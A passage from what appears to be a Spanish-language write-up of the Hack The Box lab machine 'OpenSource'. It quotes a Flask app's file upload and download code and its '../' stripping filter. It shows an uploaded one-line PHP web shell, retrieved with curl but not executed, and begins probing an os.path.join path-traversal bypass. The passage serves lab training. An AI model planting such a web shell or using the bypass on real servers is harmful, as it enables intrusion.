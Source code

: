 ```null
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

Puedo subir un archivo en ```PHP```, pero no lo interpreta

<img src="/writeups/assets/img/OpenSource-htb/4.png" alt="">

```null
curl http://10.10.11.164/uploads/cmd.php
<?php
  system($_REQUEST['cmd']);
?>
```

En ```utils.py``` se puede ver en que consiste la función que se encarga de obtener el archivo

```null
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

Está tratando de eliminar ```../``` del nombre del archivo. En caso de no poner nada como nombre, aparece un error en el que se leakea una ruta

<img src="/writeups/assets/img/OpenSource-htb/5.png" alt="">

Se puede bypassear de una forma muy sencilla. No puedo hacer un directory path traversal

```null
python3
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "test")
'/home/rubbx/Desktop/HTB/Machines/OpenSource/source/app/app/public/uploads/test'
```
